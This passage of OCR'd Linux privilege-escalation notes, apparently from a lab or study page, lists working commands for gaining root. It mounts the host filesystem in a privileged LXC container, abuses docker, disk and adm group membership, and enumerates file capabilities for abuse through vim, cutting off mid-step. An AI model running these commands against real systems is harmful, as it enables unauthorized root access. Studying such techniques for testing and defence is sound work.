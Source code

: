 5. **Start Privileged Container:**
   - Command: 
     ```sh
     lxc init alpine r00t -c security.privileged=true
     ```
   - Output: Container `r00t` created.

6. **Mount Host File System:**
   - Command: 
     ```sh
     lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
     ```
   - Output: Device `mydev` added to `r00t`.

7. **Spawn Shell Inside Container:**
   - Commands:
 ```sh
lxc start r00t
 ```
       
```sh
lxc exec r00t /bin/sh
```
   - Output: Access inside the container with root privileges.

8. **Docker Group Exploitation:**
   - Members in the docker
   - group have root-level access.
   - Example Docker command: 
```sh
     docker run -v /root:/mnt -it ubuntu
```

9. **Disk Group Access:**
   - Users in the disk group have full access to devices in `/dev`, like `/dev/sda1`.
   - Example: Use `debugfs` to access the entire file system with root privileges.

10. **ADM Group Access:**
    - Members in the adm group can read all logs in `/var/log`.
    - User `secaudit` is a member of groups `secaudit` and `adm`.

**Capabilities**
#Capabilities
 
- Enumerate Capabilities : 

```sh
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```

- Exploiting  Capabilities: 
```sh
getcap /usr/bin/vim.basic
```

- We can use the `cap_dac_override` capability of the `/usr/bin/vim` binary to modify a system file:
